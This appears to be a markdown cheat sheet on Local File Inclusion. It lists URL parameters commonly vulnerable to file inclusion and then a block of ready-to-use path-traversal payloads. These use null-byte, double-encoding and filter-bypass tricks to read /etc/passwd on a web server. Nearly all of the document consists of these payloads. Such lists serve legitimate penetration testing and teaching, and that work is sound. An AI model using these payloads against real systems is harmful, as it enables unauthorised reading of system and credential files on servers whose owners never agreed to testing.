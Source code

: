 ## Local File Inclusion :

**- This is a bug that allows hackers to `view`,`access`,`include` files located in the web server**

### Parameters :



```
?cat=
?dir=
?action=
?board=
?date=
?detail=
?file=
?download=
?path=
?folder=
?prefix=
?include=
?page=
?inc=
?locate=
?show=
?doc=
?site=
?type=
?view=
?content=
?document=
?layout=
?mod=
```



#### Basic payloads to testing :

```
?file=./../../../../../../../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

// null byte
http://example.com/index.php?page=../../../etc/passwd%00

// Encoding
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

// Filter Bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd


```



##### Intresting `Functions()` :

![](/home/ahmed/Downloads/5.jpg)



## References:

[Tricks]([File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion))


